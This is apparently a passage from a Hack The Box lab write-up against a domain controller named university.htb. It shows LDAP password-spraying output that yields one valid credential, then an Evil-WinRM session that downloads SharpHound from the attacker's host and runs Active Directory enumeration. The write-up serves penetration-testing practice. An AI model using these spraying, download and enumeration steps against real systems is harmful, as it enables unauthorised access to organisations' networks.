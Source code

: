 ```c
LDAP        10.129.153.87   389    DC               [-] university.htb\Martin.T:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\Nour Qasso:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\Nya Laracrof:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\Nya.R:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\Rose.L:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\Steven.P:WebAO1337 
LDAP        10.129.153.87   389    DC               [+] university.htb\WAO:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\William.B:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\carol:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\carol helgen:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\george:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\hana:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\karma.watterson:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\martin rose:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\martin.rose:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\nour:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\nya:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\steven Universe:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\steven.U:WebAO1337
```

## Active Directory Enumeration

At this point it was time have a look at the `Active Directory`. Therefore we threw `SharpHound` onto the box and downloaded the `.zip` file.

- [https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe)

```c
*Evil-WinRM* PS C:\tmp> iwr 10.10.14.79/SharpHound.exe -o SharpHound.exe
```

```c
*Evil-WinRM* PS C:\tmp> .\SharpHound.exe
2024-10-27T16:34:03.6342477-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2024-10-27T16:34:03.7748802-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-10-27T16:34:03.7905191-07:00|INFORMATION|Initializing SharpHound at 4:34 PM on 10/27/2024
2024-10-27T16:34:03.9936189-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for university.htb : DC.university.htb
2024-10-27T16:34:04.0248733-07:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-10-27T16:34:04.1968780-07:00|INFORMATION|Beginning LDAP search for university.htb
2024-10-27T16:34:04.2279985-07:00|INFORMATION|Producer has finished, closing LDAP channel
2024-10-27T16:34:04.2435950-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2024-10-27T16:34:34.8947271-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 35 MB RAM
2024-10-27T16:34:49.6862951-07:00|INFORMATION|Consumers finished, closing output channel
2024-10-27T16:34:49.7170673-07:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2024-10-27T16:34:49.9983137-07:00|INFORMATION|Status: 126 objects finished (+126 2.8)/s -- Using 42 MB RAM
2024-10-27T16:34:49.9983137-07:00|INFORMATION|Enumeration finished in 00:00:45.8128793
2024-10-27T16:34:50.0765063-07:00|INFORMATION|Saving cache with stats: 86 ID to type mappings.
 85 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2024-10-27T16:34:50.0920811-07:00|INFORMATION|SharpHound Enumeration Completed at 4:34 PM on 10/27/2024! Happy Graphing!
```
